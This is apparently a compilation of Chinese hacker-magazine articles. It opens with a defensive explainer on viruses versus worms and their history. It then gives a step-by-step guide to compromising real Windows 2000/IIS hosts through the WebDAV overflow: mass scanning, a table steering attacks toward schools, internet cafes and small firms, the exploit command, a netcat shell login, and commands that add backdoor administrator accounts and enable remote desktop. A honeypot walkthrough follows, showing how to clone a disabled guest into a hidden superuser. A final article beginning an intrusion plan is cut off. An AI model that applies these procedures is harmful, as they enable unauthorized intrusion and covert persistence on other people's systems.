> “计算机病毒是一段代码，能把自己加到其他程序包包括操作系统上。它不能独立运行，需要由它的宿主程序运行来激活它。”

《中华人民共和国计算机信息系统安全保护条例》在第二十八条中明确指出：计算机病毒是指编制或者在计算机程序中插入的破坏计算机功能或者毁坏数据，影响计算机使用，并能自我复制的一组计算机指令或者程序代码。

从上面的定义中我们可以看出，自我复制和破坏性是病毒的基本特征。一般来说，病毒本身的传播并不依赖于某个漏洞的存在，它依赖于操作系统本身的正常功能。

- 2. **蠕虫的定义**

蠕虫这个生物学名词在1982年由Xerox PARC的John F. Shoch等人最早引入计算机领域，并给出了计算机蠕虫的两个最基本特征：“可以从一台计算机移动到另一台计算机”和“可以自我复制”。他们编写蠕虫的目的是做分布式计算的模型试验，在他们的文章中，蠕虫的破坏性和不易控制已经初露端倪。1988年Morris蠕虫爆发后，Eugene H. Spafford为了区分蠕虫和病毒，给出了蠕虫的技术角度的定义，“计算机蠕虫可以独立运行；并能把自身的一个包含所有功能的版本传播到另外的计算机上。”

> **注**：
病毒利用的是系统的正常功能，而蠕虫利用的是系统的非正常功能，而这也正是蠕虫可以被轻易patch，而病毒永远无法通过patch来解决问题的关键所在了。

### 病毒和蠕虫的异同及具体例子比较

给出病毒和蠕虫的定义之后，我们再具体看看它们之间的区别和联系，并用具体例子做一个分析和比较。

综合病毒的各种定义，我们可以看出病毒具有如下几个特点：可以自我传播、具有破坏性、需要宿主来激活、依赖于系统正常的功能。譬如，CIH病毒、Funlove、杀手13、求职信病毒等。

再结合蠕虫的定义，我们可以看出，蠕虫具有如下几个特点：可以自我传播、具有破坏性、不需要宿主来激活。另外，蠕虫依赖于漏洞的出现。典型的有依赖于IIS idq.dll漏洞的红色代码，依赖于SQL Server堆栈溢出漏洞的蠕虫Slammer，还有最近依赖于DCOM RPC漏洞的“流言”蠕虫以及广为传播的“冲击波”MSblaster。

一般来说，病毒重感染而蠕虫重自我复制，并且病毒依赖于操作系统的正常功能，而蠕虫多依赖于具体的漏洞，这也是每一个重大漏洞公布后都会有相应蠕虫出现的主要原因。当然有一些让人难以区分其具体是属于病毒还是蠕虫的程序，譬如“尼姆达”，它既具有病毒的感染特性，也有蠕虫利用漏洞进行传播的特性。在对“尼姆达”的分类上，曾引起了一些争议。

为了便于大家了解病毒和蠕虫之间的异同，这里我们引用一张Spark相关分析对照表，帮助大家更好地进行理解。

这里我们需要补充的是，在搜索机制（传染目标）这点上，病毒不仅针对本地文件，同时它也针对局域网中的其他共享资源，病毒也可能通过E-mail附件来传播自身。

下面我们对上面的各点做一个详细说明。

在存在形式上，病毒往往是寄生在HOST程序中，而蠕虫却是独立个体，很多蠕虫甚至不在系统中产生文件，而只是存在于内存之中，譬如Slammer和RedCode。

> **注**：
以上就是以前说的内存病毒，它只存在于内存之中。由于一般个人机器关机频率比较高，所以这类蠕虫经常驻留在服务器的内存之中，不过这也与服务器提供的一些具体服务有关。

在复制机制上，病毒往往是将自身代码插入到目标文件之中，比如对PE文件进行感染，大多就是将自身病毒代码以字节的方式插入到目标文件之中，与目标文件合为一体。而蠕虫不一样，它即便产生文件，该文件也是单独存在的新文件，不依赖于其他文件，由于只是自身的拷贝，在该机制上其技术远远不如病毒技术复杂。

### 表 1 病毒和蠕虫的一些差别

| | 病毒 | 蠕虫 |
|---|---|---|
| 存在形式 | 寄生 | 独立个体 |
| 复制机制 | 插入到宿主程序（文件）中 | 自身的拷贝 |
| 传播机制 | 宿主程序运行 | 系统存在漏洞 (vulnerability) |
| 搜索机制 (传染目标) | 针对本地文件 | 针对网络上的其它计算机 |
| 触发传染 | 计算机使用者 | 程序自身 |
| 影响重点 | 文件系统 | 网络性能、系统性能 |
| 计算机使用者角色 | 病毒传播中的关键环节 | 无关 |
| 防治措施 | 从宿主文件中摘除 | 为系统打补丁 (Patch) |
| 对抗主体 | 计算机使用者、反病毒厂商 | 系统提供商、网络管理员 |

在传染机制上，病毒在和HOST程序合为一体后，当HOST程序运行时，便会执行病毒程序进行进一步的传播。但是对于蠕虫来说，一般都要将自身传播到网络中的其他计算机，而这就需要一定的操作权限，这样，蠕虫就势必需要用到系统存在的各种漏洞，以获得对目标机器进行相关操作的权限。

在搜索机制（传染目标）上，由于各自的目的不一样，所以目标也不同。蠕虫主要是对网络中存在漏洞的机器进行连续传播，扩大自己的传播范围。而病毒在希望借网络传播的同时，会将重点放在本地文件的感染上，这样有利于提高自身的难以解除性。这也正是病毒解除起来比较困难，而蠕虫清除起来比较简单的原因。

在触发感染方面，这也是病毒和蠕虫之间的重大区别所在。对于病毒来说，往往需要计算机使用者触发HOST程序，这样，病毒才有机会得到运行。触发病毒的方式有多种，比如CIH病毒感染所有的EXE文件，由于EXE文件是每台计算机每天必须用到的一类程序，这样，计算机用户就不可避免地要点击EXE文件，以触发病毒本身。另外，病毒也可能对注册表等位置作相应修改，以便于计算机启动时直接触发病毒体，但是这也应该说是一种被动触发的方式。对于蠕虫来说，其传播是非常主动的，根本不需要计算机用户的干预，比如Slammer蠕虫王，发送一个攻击包到对方系统后，存在相应漏洞的对方系统便会自动执行相应的蠕虫代码继续对其他计算机进行攻击。

在影响重点上，病毒由于会大规模地对本地文件进行感染，因此重点还是在本地系统上。当然有时候有些病毒利用OE来对外进行循环发送邮件，后果也是非常严重的，比如爱虫病毒、美丽莎病毒等。而蠕虫则大不一样，它主要是在网络上传播，为了造成更大的影响，蠕虫在寻找目标计算机时大多采用了随机IP生成的方法，并且有些蠕虫还是一直连续不断地对外发包，这样便可能导致整个网络瘫痪。比如一个内部网中如果有一台机器中了Slammer蠕虫，便可能导致整个网络瘫痪。


> **注**
从最近病毒和蠕虫发作情况来看，蠕虫引起的网络风暴往往造成了最为严重的后果。

在计算机使用者角色上，在病毒的整个传播过程中，计算机使用者的作用是非常重要的。这也正是一些比较有安全意识的朋友很少中病毒的原因。但是蠕虫的传播由于不需要计算机用户的干预，只要对方系统存在漏洞，就可以主动侵入并传播。

在防治措施上，病毒的清除要比蠕虫的清除困难很多。对于很多蠕虫来说，一个重启操作便可以让蠕虫暂时消失得无影无踪，但是对于病毒来说，可能经过反复的查杀后仍然无法清除干净。

在对抗主体上，病毒往往是针对用户的系统本身，或是和反病毒厂商的一种对抗。在出现的各种病毒中，恶性病毒居多，它会刻意去破坏用户的数据或者系统功能，并且基本上没有非常明确的目的性。而蠕虫往往是针对特定的漏洞而设计的，因此它针对了系统提供商和网络管理人员。比如利用DCOM RPC漏洞的冲击波蠕虫代码中就可以发现作者对微软的不满。

## 蠕虫的发展历史

1980年，Xerox PARC的研究人员编写了最早的蠕虫，用来尝试进行分布式计算（Distributed Computation）。整个程序由几个段（Segment）组成，这些段分布在网络中的不同计算机上，它们能够判断出计算机是否空闲，并向处于空闲状态的计算机迁移。当某个段被破坏掉时，其他段能重新复制出这个段。研究人员编写蠕虫的目的是为了辅助科学实验。

1988年11月，发生了一起重大的事件：“莫里斯的蠕虫”，第一个因特网病毒出现。该病毒在美国感染了超过6000台电脑（包括美国国家航空和航天局研究院的电脑），并使它们部分瘫痪，由于网络瘫痪造成的损失，预计超过9600万美元。“莫里斯的蠕虫”利用了VAX和SUN公司开发的UNIX系统...

上的漏洞，使自己可以繁殖和传播（关于莫里斯是有意利用了这一漏洞还是程序本身的错误还存在争议）。这一病毒同时还进行了密码偷窃和权限修改等工作，可以认为这是最早木马类病毒的一次尝试。它造成的影响是如此之大，使它在后来的十几年里，被反病毒厂商作为经典病毒案例，虽然它是蠕虫而非病毒。

1989年10月16日，WANK蠕虫被报告，它表现出来强烈的政治意味，自称是抗议核杀手的蠕虫（Worms Against the Nuclear Killers），将被攻击的 DEC VMS 计算机的提示信息改为“表面上高喊和平，背地里却准备战争”（You talk of times of peace for all, and then prepare for war.）。WANK蠕虫是通过系统弱口令漏洞进行传播的。

> 这里的 WANK 意思是 Worms Against the Nuclear Killers，请抛开您的英汉词典或者词霸，其中的解释会误导您的判断 ^_^。

2001年3月23日，Lion (li0n) 蠕虫被发现。Lion蠕虫集成了多个网上常见的黑客工具，如扫描工具 Pscan、后门工具 t0rn、DDoS 工具 TFN2K 等等，并把被攻击的主机上重要信息如口令文件等发往 li0nsniffer@china.com，这些信息后来在 Internet 上被广为传播，使曾被蠕虫攻击过的系统即使修补好系统漏洞后，仍然受到潜在的威胁。Lion 蠕虫通过域名解析服务程序BIND中的TSIG漏洞进行传播，代码中有明显的对 Ramen 蠕虫的抄袭痕迹。

2001年5月，cheese 蠕虫被发现，这个蠕虫号称是友好的蠕虫（friendly worm），是针对 Lion 蠕虫编写的，它利用 Lion 蠕虫留下的后门（10008 端口的 rootshell）进行传播。进入系统后，它会自动修补系统漏洞并清除掉Lion蠕虫留下的所有痕迹。它的出现，被认为是对抗蠕虫攻击的一种新思路，但不管怎样，它造成的网络负载也会导致网络不可用，所以对cheese蠕虫的评价毁誉参半。

> 看来，在 2001 年 5 月就已经有了“以毒攻毒”思想的具体实践，这种“好虫子”目前已经出现不少，比如前段时间出现的“假好心”蠕虫便具有专门用来清除“冲击波”蠕虫并主动为用户打上相应补丁的功能。但不管作者的目的怎样，其效果好像都是“火上浇油”。

2001年7月18日午夜，红色代码大面积爆发，被攻击的电脑数量达到35.9万台。被攻击的电脑中 44% 位于美国，11% 在韩国，5% 在中国，其余分散在世界各地。7月19日，“红色代码”病毒开始疯狂攻击美国白宫网站，白宫网站管理员将白宫网站从原来的 IP 地址转移到另外一个地址，才幸免于难。

7月31日，格林尼治时间午夜整点，“红色代码 II”爆发，在全球大面积蔓延。据统计，红色代码发作的行业集中在计算机信息行业和网站，约占 70%~80%；其次就是企事业单位，包括学校、政府机构等，约占 20%~30%。其中，北京地区发作最为严重，约占 80%。而“红色代码 II”除了具有红色代码的特点外，还可以攻击任何语言的系统；在遭到攻击的机器上植入“特洛伊木马”，拥有极强的可扩充性。

未感染则注册 Atom 并创建 300 个病毒线程。当判断到系统默认的语言 ID 是中华人民共和国或中国台湾时，线程数猛增到 600 个。IP 随机数发生器产生用于病毒感染的目标电脑 IP 地址(40 万/天)。当病毒在判断日期大于 2002 年 10 月时，会立刻强行重启计算机。

9月18日，Nimda 蠕虫被发现，不同于以前的蠕虫，Nimda 开始结合病毒技术。它的定性引起了广泛的争议，NAI（著名的网络安全公司，反病毒厂商 McAfee 是它的子公司）把它归类为病毒；CERT (Computer Emergency Response Team) 把它归类为蠕虫，Incidents.Org (国际安全组织) 同时把它归入病毒和蠕虫两类。Nimda 蠕虫执行代码里包含 “Concept Virus (CV) 5.5, Copyright (c) 2001 RP.China”，由此有计算机专家推断这个蠕虫也是中国黑客所编写的。对Nimda造成的损失评估数据从5亿美元攀升到26亿美元后，继续攀升，到现在已无法估计。自从诞生以来来到现在，无论哪里、无论以什么因素作为评价指标排出的十大病毒排行榜，它都榜上有名。Nimda蠕虫只攻击微软公司的 Windows 系列操作系统，它通过电子邮件、网络邻近共享文件、IE浏览器的内嵌 MIME 类型自动执行 (Automatic Execution of Embedded MIME Types) 漏洞、IIS 服务器文件目录遍历 (directory traversal) 的漏洞、CodeRed II 和 sadmind/IIS蠕虫留下的后门共5种方式进行传播。其中前三种方式是病毒传播的方式。

> **注**：nimda 倒过来拼写便是 admin，从这点也应该看出该病毒的用心良苦了。

2003年1月25日，SQL 蠕虫王大面积爆发。该蠕虫被媒体形容为“极为罕见的”，它使得全球网络大面积发生瘫痪。

2003年8月12日，利用微软 Windows 系统 DCOM RPC 漏洞的“冲击波”蠕虫爆发，并产生了比较多的变种。

以上列出了部分蠕虫的简要说明。有非常多的文献提到最早的蠕虫是 Creeper (爬行者) 和 Reaper (收割机)，Creeper 在计算机之间传播复制自己，Reaper 在计算机之间寻找 Creeper 并杀死它，并在最后自杀掉；进而提到它们是 Core War (磁心大战) 游戏中最著名的两个例子。

但实际情况正好相反，Core War游戏的设计者 A. K. Dewdney 提到，这两个传说 (folklore) 中的蠕虫是他设计这个游戏的灵感来源。不像病毒一开始被制造出来就是为了破坏计算机文件系统，最原始的蠕虫是计算机工作者的助手，但随着时间的流逝，蠕虫也变成了怀有恶意的编程人员释放的杀手。从上面描述的蠕虫的发展历史也可以看到，最近这几年是蠕虫出现的高峰，并且造成了非常大的危害。

## 病毒和蠕虫的解决办法

由于病毒和蠕虫各自某些重大特征的不同，在对其进行清除时，方法也有很大的不一样，这里我们做出一定分析。

对于病毒，由于它大都感染本地的文件系统，要想清除病毒，我们必须先对这些被感染了病毒的文件进行恢复或者删除。对于某些重要的文件，我们必须想办法恢复，而对染毒文件的恢复工作，因病毒本身所采取的各种技术而各不相同。我们通常采用杀毒软件对病毒进行查杀，但是对于很多病毒感染的文件的恢复，杀毒软件却是无能为力的。特别是病毒使用了加密等技术后，稍不小心就可能导致鱼死网破的结果。另外，病毒的感染有时候涉及到多线程的相互保护，或者直接将病毒注入到了系统进程之中等，清除工作并不是普通用户可以胜任的。

而对于蠕虫来说，由于它并不对本地文件进行感染，并且为了方便，有时候也仅是在磁盘中留下了自身的一个副本，因此清除起来比较方便。比如对于“冲击波”病毒的清除，无非就是关闭进程、修改注册表、删除文件、打好补丁几个步骤。而对于 SQL 蠕虫王和红色代码的清除则更为简单，重启后蠕虫自动消失，然后自己打上相应的补丁也就足够应付了。

从这里我们也可以看出，病毒清除干净后，很可能日后还会被重复感染。但是，对于蠕虫来说，当我们清除干净、打好该蠕虫利用的相应漏洞的补丁之后，该蠕虫就不再具有对我们的系统进行感染的能力。可见，对于特定蠕虫，我们可以通过补丁解决以后不会再次被反复感染的问题。而对于特定病毒来说，这点很难办到。比如 Funlove 病毒尽管已经出现很久了，但是现在仍然有不少机器被感染。

可见，要减小被病毒感染的几率，一个好的反病毒软件还是非常必要的。另外，加强我们自身的安全意识也可以大大避免这种情况的发生。

对于蠕虫来说，我们需要注意各种公布的漏洞，及时打好相应的补丁。比如 DCOM RPC 漏洞在蠕虫出来很长时间就已经公开，并且也有很多人呼吁广大用户及时打好相应补丁，但最终冲击波等蠕虫所造成的损失也是非常严重的。什么原因呢？还是因为没有及时打好补丁，很多用户在被攻击后甚至还不知为何。

> **注：** 看来，将病毒和蠕虫两者区分开来，还是有很大的现实意义的。至少在防范这方面，我们操作起来会更加具有针对性。

### 蠕虫与黑客程序之间的联系

病毒、蠕虫和黑客程序都属于反病毒软件的查杀范围。病毒和蠕虫之间的异同我们已经在上面详细地分析过了。对于蠕虫和黑客程序之间的关系，我们在这里做一简要说明。

对于黑防的读者朋友来说，对于黑客程序肯定非常熟悉了。每期的随刊光盘中便有大量的黑客程序，这也正是为读者会抱怨插入光盘后反病毒软件会报告其中含有病毒的原因。大多数黑客程序都具有非常明显的攻击性，不过其可控性比较强，而蠕虫不一样，一旦爆发，作者是无法控制其结果的。或许这也正是为什么黑客软件的作者可以将自己的大名和联系方式写在程序之中并申明版权所有，而蠕虫作者却大都不敢将自己姓名和真实联系方式写入代码之中的原因。因此可崇拜的黑客英雄很多，而出名的病毒作者却很少。

很多蠕虫往往会直接采用一些漏洞测试程序（Exploit）的部分代码，“冲击波”也不例外，看来网络共享的确带来了很多便利。

> **注：** 从某种意义上说，蠕虫其实也就是可以进行自动攻击的Exploit，它用来改变正常的系统服务程序流程跳转到我们自己的shellcode的，从而取得这个系统服务的权限，进行进一步的攻击。比如冲击波病毒就直接引用了现成的Exploit。

### 病毒和蠕虫的发展趋势

病毒技术在和反病毒技术的不断斗争中得到了快速发展。从最初的没有任何对抗反病毒的手段，到不改变文件大小、感染时间，再到简单加密、多态变形和EPO、三线程等等高级技术，这都给反病毒工作带来了不小的困难。

从现在的发展趋势来看，病毒技术已经逐渐开始和黑客技术结合，这样病毒可以加快自己的传播速度，扩大自己的传播范围。从最近发作的一些病毒和蠕虫来看，它们各分秋色。但是，不论是病毒还是蠕虫，它们现在都很难放弃网络这个传播环境。对于蠕虫来说，由于其受漏洞的严重程度和漏洞涉及范围的影响，蠕虫的影响力和破坏力也有所不同，但其一旦大面积爆发，后果是非常严重的，Slammer就直接导致了今年1月25日的大面积网络瘫痪。

另外，病毒开始逐渐表现出特有的目的性，6月份爆发的“妖怪B”病毒，便直接对1000多家银行系统进行有目的性的攻击。由于蠕虫的编写技术相对比较简单，可以说蠕虫今后会得到比较大的发展，在比较大的漏洞出现之后，必定会有相应的蠕虫出现。

对于病毒和蠕虫，笔者认为会有如下的发展趋势。

- 1. 病毒和蠕虫技术的相互结合，两者互相补充。
- 2. 充分利用计算机网络的传播优势。
- 3. 病毒体之间会加强通信和交流，并初步显示出一定的低级智能。这一点跟人工智能技术的发展程度很有关系。
- 4. 病毒和蠕虫的动态升级功能。
- 5. 目的性逐渐加强。
- 6. 分布式病毒和蠕虫可以使得病毒之间、蠕虫之间协同作战。

> **后记：** 病毒、蠕虫和黑客程序是很多朋友容易混淆的概念，特别是在病毒和蠕虫的判断上。看完本文，相信大家应该对它们有一个比较明晰的了解了。同时，我们也可以看到分清它们的概念的确有利于我们进一步有针对性地做好相应的防范工作。

## 利用 WEBDAV 漏洞
结合终端服务入侵远程主机

文／李志勇

### 漏洞简介

WEBDAV漏洞是“Microsoft Windows 2000 ntdll.dll WebDAV接口远程缓冲区溢出漏洞”的简称。

### 详细描述

Microsoft IIS5.0带有WebDAV组件对于用户输入的传递给 ntdll.dll 程序处理的请求未做充分的边界检查，远程入侵者可以通过向 WebDAV 提交一个精心构造的超长的数据请求而导致发生缓冲区溢出，这可能使入侵者以LocalSystem的权限在主机上执行任意指令。

受影响系统：Windows 2000+IIS 5.0

### 入侵前的准备

为了利用WEBDAV漏洞入侵具有该漏洞的主机，本地主机必须是 Windows 2000，而且还必须具有以下几种工具：

- WEBDAVSCAN.EXE (WEBDAV 漏洞扫描工具，之所以选用该工具是因为该工具是批量扫描工具，而Ptwebdav是单一扫描工具，在当前溢出成功率不高的情况下，扫描到更多具有该漏洞的主机显然更为重要)
- WEBDAVX3.EXE (WEBDAV 漏洞中文版溢出工具)
- NC.EXE (登录工具)

为了入侵的深入，有时还需要以下几种工具：

- 3389DLQ.EXE (Windows 2000 终端服务登录器，与终端服务客户端作用相同)
- ROTS.VBS (启动主机终端服务的工具，前提是主机已安装终端服务)

### 入侵过程

第一步：利用 WEBDAVSCAN.EXE扫描有 WEBDAV 漏洞的远程主机。

具体过程：首先，运行 WEBDAVSCAN.EXE，在“STARTIP”、“ENDIP”中分别输入起始 IP 地址、结束 IP 地址，点击“SCAN”，开始扫描。扫描过程如图1所示。

然后，点击某个地址，执行“OPEN THIS SITE”命令，浏览该地址的主页。一边扫描，一边浏览主页，这是一种很好的方法，可以大大地提高扫描的效率。不要小看这一步操作，根据浏览主页情况，可以判断能否入侵以及入侵的安全性。


最后，对扫描结果进行分析，并决定下一步操作。

| "WEBDAV" 字段值 | 浏览主页情况 | 结论 | 下一步操作 |
| :--- | :--- | :--- | :--- |
| DISABLE | 不必浏览主页 | 无此漏洞 | 不再进行下一步 |
| ENABLE | 主页表明可能是政府机关或大公司等 | 有此漏洞，但可能安装有防火墙，不易入侵成功；即使能够入侵，也能给自己带来麻烦 | 推荐不再进行下一步 |
| ENABLE | 主页表明可能是网吧、论坛、游戏网站等 | 有此漏洞 | 推荐进行下一步 |
| ENABLE | 主页表明可能是学校、小公司等 | 有此漏洞，且基本上不安装防火墙，成功的可能性很大 | 推荐进行下一步 |

第二步：利用 WEBDAVX3.EXE 溢出具有此漏洞的且操作系统为中文 Windows 2000 的主机。

具体过程：在本地主机在“开始”菜单的“运行”中输入“CMD”，在出现的“命令提示符”窗口中执行如下命令（*.*.*.*是要溢出的远程主机的 IP 地址）。

```
WEBDAVX3 *.*.*.*
```

溢出过程如图 2 所示。

溢出过程中有两个选择：一是耐心地等待溢出的全过程结束，根据最终结果决定下一步的操作是进行登录还是放弃；二是在溢出过程未完全结束时，根据经验判断最终结果，然后根据判断的最终结果决定下一步操作。第二种操作与第一种相比，虽然有时会出现判断错误，但由于判断错误可能性很小，所以会大大地节省时间，提高入侵的效率。大家可根据自己的情况选择进行哪种操作。

### 如何在溢出过程未完全结束时，判断溢出的最终结果

| 溢出过程 | 判断最终结果 | 下一步操作 |
| :--- | :--- | :--- |
| 在相邻的两个 OFFSET 出现 “WAITING FOR IISRSSTART”字样，并且在下一个 OFFSET 出现长时间的停顿（调试一个 OFFSET 需要 6 秒左右的时间，超过 6 秒就可以称为“长时间的停顿”） | 100% 已溢出 | 在出现停顿的 OFFSET 处按 CTRL+C 中止溢出，并进行登录 |
| 在一个 OFFSET 出现 “WAITING FOR IISRSSTART” 字样，并且在下一个 OFFSET 出现长时间的停顿 | 80% 已溢出 | 在出现停顿的 OFFSET 处按 CTRL+C 中止溢出，并进行登录 |
| 在一个 OFFSET 出现 “WAITING FOR IISRSSTART” 字样，之后显示 “FAILED” | 不可溢出（大概有防火墙） | 测试溢出其他主机 |
| 在 OFFSET -4 后，仍未出现 “WAITING FOR IISRSSTART” 字样 | 基本上不可溢出 | 按 CTRL+C 中止溢出，测试溢出其他主机 |

在溢出过程完全结束或在中间中止时，如何迅速判断溢出是否成功？

因为溢出成功以后，IIS 一般就会崩溃，所以可以根据溢出前后该主机主页的变化来判断溢出是否成功。浏览该主机的主页，如果已不可浏览，说明溢出成功；否则，说明溢出未成功。

第三步：登录已溢出的远程主机。

在“命令提示符”窗口中执行如下命令：

```
NC -VV 61.*.*.* 7788
或者 TELNET 61.*.*.* 7788
```

登录过程如图 3 所示：


如出现此种结果，说明成功登录远程主机，溢出成功！现在可以在远程主机上以 “LocalSystem” 身份执行任意命令。但是，不知道是远程执行命令的原因还是溢出程序的原因，有的命令要按两次回车才能执行和显示执行成功提示。

一个 WEBDAV 漏洞完整的扫描、溢出、登录到此已经结束。

## 入侵的深入

由于运行 Windows 2000+IIS 的主机的部分是作为服务器使用，所以能入侵的 Windows 2000 太多是 ADVANCED SERVER 版，个别是 SERVER 版，PROFESSIONAL 版基本没有。由于 Windows 2000 ADVANCED SERVER 版和 Windows 2000 SERVER 都有终端服务，所以利用 WEBDAV 漏洞在远程主机上建立管理员账户，然后通过终端服务进入主机是一种成功率很高的方法。

第一步：在远程主机上新建一个账户，并将该账户加入远程主机的管理员组。

具体过程：在 C:\WINNT\SYSTEM32 > 提示符下输入下列命令：

```
NET USER HP 123 /ADD
NET LOCALGROUP ADMINISTRATORS HP /ADD
```

第二步：利用 Windows 2000 终端服务登录工具 3389DLQ.EXE 测试登录远程主机，测试远程主机是否安装并启动了终端服务。登录过程如图 4 所示。

如果出现图 5 所示：

说明远程主机已安装并启动了终端服务，快用新建的管理员账户登录。什么，“口令错误”，噢，这是正常的，因为已安装并启动的终端服务一般都是设置为只能由ADMINISTRATOR来远程登录的，设置管理员组的所有用户都可以登录的非常少。

如果出现图 6 所示：

说明远程主机没有安装或没有启动终端服务。

第三步：对于已安装终端服务，但没有启动终端服务或者已启动终端服务但是设置为只能由ADMINISTRATOR来登录的主机，采用启动主机终端服务的工具ROTS.VBS启动远程主机的终端服务并改动其设置。

在本地主机的“命令提示符”窗口（注意：不是远程主机的命令提示符）中执行如下命令： (命令中的 IP 地址是虚拟的)

```
cscript rots.vbs 61.61.61.61 HP 123 3389 /r
```

上述命令的意义是，启动远程主机61.61.61.61的终端服务，并设置为由 HP 账户登录，登录端口为 3389。

启动过程如图 7 所示：

如出现图 7，则说明启动可能成功。此时浏览该主机的主页，已不可显示。


图 4


图 5


图 8

第四步：由于启动终端服务需要一段时间，因此，估计已过 5 分钟后再利用 Windows 2000 终端服务登录工具 3389DLQ.EXE 测试登录远程主机。


图 6

输入我们建立的账户和密码，啊，成功了！下面，你就可以像操作自己主机一样操作别人的主机了。


图 7

## 解决方案

第一种方法是安装安全补丁：补丁可以到“安全焦点”去下载。

第二种方法是设置注册表：将HKEY_LOCAL_MACHINE\SYSTEM\Current ControlSet\Services\W3SVC\Parameters下 Disable Web DAV 的值设为 “dword:00000001”。

## 自做 Honeypot 实现 Webdav 漏洞 安全入侵及配置

文/rongke

关于微软惊爆 Webdav 远程溢出漏洞，在这我引用老大哥 isno 一句话：这个漏洞可能是前些年就有牛人发现了的，不过一直没公布，直到最近微软出了安全公告大家才知道原来有这么个漏洞。漏洞出来了，当然要实践一下，以提高自身的动手能力，那么，如何才能在不触犯法律的同时进行入侵试验呢？我想到了 Honeypot，下面就和我开始这次入侵之旅吧！

当然选择 Server 或者 Advance Server 版啦，然后一直“下一步”，由于这次我采用的是汉化版，都是中文，相信大家都能看懂，所以我也不多说，如图 2 所示。


- **准备工具**：
  (1) VMware Workstation
  (2) webdavx 攻击测试程序，webdav.pl 中文 IIS 溢出脚本，fo_webdav.exe 通用溢出版本，这个程序可以针对中文、英文、韩文、日文各版本的 IIS 进行攻击，无论对方打了何种 service pack，只要漏洞存在就能成功获取一个 system 权限的 cmdshell，而且为了防止远程主机对端口进行过滤，所以在 shellcode 中并不绑定 cmd 到新的端口，而是直接重用 http port，可以很好地避开防火墙对远程主机的保护。
  (3) IIS Lockdown tool IIS 锁定工具
  (4) Win2000 Webdav 远程缓冲区溢出漏洞扫描工具


实施步骤：首先，我们把 VMware Workstation 装好，然后选择“新建虚拟主机”，如图 1 所示。点击“下一步”，选择你要安装的 OS 版本，这按“完成”结束 VMware Workstation 的安装。接下来点击“开机”，开始装系统，然后 VMware Workstation 虚拟的 OS 会重新启动，和 Windows 很像，但有一点不同的是，当出现启动界面时，不是按“Del”键进入 COMS 设置，而是“F2”键。下来设置启动顺序，我们选择从光盘启动，注意了用“+”、“-”进行选择，如图 3 所示。


接着，按“F10”保存，退出，重启。把 Windows Server 安装光盘放进光驱，接下来的一系列操作和我们平时装系统没什么差别。

好，现在我们已经把 Windows Server 装好，当然我们已经为系统装了“IIS”服务等一切默认配置。好了，一台“Webdav 漏洞蜜罐”就简单地装好了！让我们进入“蜜罐”进行我们的安全入侵之旅。充分发挥 Honeypot 的作用：学习和研究网络安全，看来我们要改写 Honeypot 的功能了，它不仅仅是拿来收集入侵证据的，它可以为我们学习之用。进入 Honeypot。

现在已经进入了蜜罐，设置好 IP、启动 IIS 服务，拿出我们的 Webdav 漏洞扫描器；如图 4 所示，图


图 4

中 192.168.1.222 就是蜜罐 IP 的 Webdav 漏洞是存在的，而 192.168.1.2 就是小生主机的 IP，已经把漏洞补上了。

进入 cmd，运行 webdavx.exe 程序，对主机 192.168.1.222 进行溢出，用命令：“webdavx 192.168.1.222”既可。

溢出成功，程序提示 telnet 192.168.1.222 7788，那我们就 Telnet 进去吧。

好了，我们已经成功地进入了 Webdav 漏洞主机，接下来的操作是仁者见仁，完全体现你自己的入侵思路，我的建议是先把它的 Telnet 服务打开，避免意外断开了这次连接，根据我的经验，除了主机重新启动，然后重来一趟之外，Telnet 7788 端口成功的机会是很小的。那我们就先启动主机的 Telnet 服务吧！命令如下：net start Telnet

接下来，我们就给主机建立一个隐藏的超级用户吧，先建立个超级用户 Webdav，这为我们后面建立隐藏的超级用户所用。我们可以用肉鸡上被禁止的用户来建立隐藏的超级用户，具体步骤如下：

- (1) 想法办法查看有哪些用户被细心的管理员禁止，一般情况下，有些管理员出于安全考虑，通常会将 guest 禁用，当然会禁用其他用户。在图形界面下，非常容易，只要在账户管理器中就可以看到被禁用的账户上有一个红叉；命令行下，我们可以在命令行下用命令：“net user 用户名”一个一个查看用户是否被禁用。虽然这麻烦了点，但却也是有效的。
- (2) 我们假设用户 guest 被管理员禁用。我们先用小榕的超级用户克隆程序 CA.exe，将被禁用的用户 guest 克隆成超级用户（当然克隆之后；被禁用的用户 guest 就被自动激活了）方法如下：

```
ca.exe \肉鸡ip webdav 用户密码 guest guest 密码。
```

- (3) 然后输入命令：net user guest /active:no，这样用户 guest 就被禁用了（其实没有），当然你也可以将用户 guest 换成其他存在的被禁用的用户。
- (4) 这时如果你在图形界面下看账户管理器中的用户时，会发现用户 guest 被禁用了，但他却拥有超级用户权限。
- (5) 这时我们就可以把刚刚建立的 webdav 用户给删了。命令如下

```
net user webdav /delete
```

到此，入侵告一段落。但自古以来有攻就有防，我们如何简单配置服务器，以达到补上漏洞的目的呢？当然，我们可以打上微软提供的补丁，但我们也要尝试自己动手的乐趣。我们可以用 IIS Lockdown 简单地达到防护的目的。

---

## “黑客”与系统管理员的较量

文 / 齐峰

什么是黑客？这是一个被很多人误解了的问题。随着黑客人文的逐步商业化，有关网络入侵、黑客攻击等事件被越来越多的人所了解。在这个过程中，一些媒体便不知不觉地起了误导的作用。那么，究竟什么是真正的黑客呢？今天我们先在这里为“黑客”这个词来正名。最早的黑客当属互联网诞生的一代人了，他们掌握着当时最先进的技术，开发了 UNIX 操作系统，是互联网的缔造者。随着黑客文化的发展，到了 20 世纪七八十年代，“黑客”这个词被赋予了新的含义，它与入侵沾上了边。但这时的黑客仍然被认为是真正的黑客，他们依旧掌握着当时最先进的技术，不断地发现各种各样的漏洞，偶尔进行一些入侵，但是绝对不做任何破坏，并且在入侵后会提醒服务器管理员修补漏洞，并且他们会写程序，调试程序，不断地求索和创新，遵循着自由和共享的原则。到了 20 世纪末，随着网络攻击事件的增多，骇客和红客一类的新名词为人门所接受。他们为了不同的目的进行入侵、破坏，已经算不上真正的黑客了。本文的题目尽管为“黑客”与系统管理员的较量，但是黑客是打了引号的，以示与真正黑客的区别。

如今，网络入侵变得越来越傻瓜化，下面我们就以一次完整的入侵过程为例，来看看入侵是怎样进行的，从而希望对系统管理员们起到一个提醒的作用。也希望大家在看过这篇文章后能够提高自己的安全意识。

### “黑客”入侵篇

#### 一、制定入侵计划

基于种种原因，入侵从确定目标到结束入侵往往不会在很短的时间内一次完成，因此需要列一个大概的入侵计划：

采用 Windows 2000 Server 操作系统：

| 时间 | 目的 | 事件 |
|------|------|------|
| 周一 | 确定入侵目标，系统漏洞 | 获取目标的 IP 地址，扫描，准备相应的工具 |
